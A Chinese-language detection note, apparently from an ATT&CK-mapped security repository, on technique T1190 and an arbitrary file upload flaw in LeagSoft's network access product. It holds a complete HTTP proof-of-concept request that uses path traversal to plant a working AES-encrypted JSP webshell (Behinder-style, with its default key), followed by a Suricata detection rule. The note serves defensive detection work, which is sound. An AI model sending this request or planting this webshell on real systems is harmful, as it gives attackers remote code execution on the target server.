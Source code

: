 # T1190-联软任意文件上传

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

联软科技产品「准入」存在任意文件上传

## 检测日志

HTTP

## 测试复现

联软任意文件上传POC

```yml
POST /uai/download/uploadfileToPath.htm HTTP/1.1
HOST: xxxxx
... ...

-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; name="input_localfile"; filename="xxx.jsp"
Content-Type: image/png

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>

-----------------------------570xxxxxxxxx6025274xxxxxxxx1
Content-Disposition: form-data; name="uploadpath"

../webapps/notifymsg/devreport/
-----------------------------570xxxxxxxxx6025274xxxxxxxx1--
```

返回信息：200OK、文件上传成功

## 测试留痕

无！

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"联软任意文件上传";flow:established,to_server;content:"POST";http_method;content:"/uai/download/uploadfileToPath.htm";content:"/webapps/notifymsg/devreport/";http_client_body;reference:url,www.hedysx.com/2627.html;classtype:web-application-attck;sid:3002012;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

联软准入系统任意文件上传

<https://www.hedysx.com/2627.html>
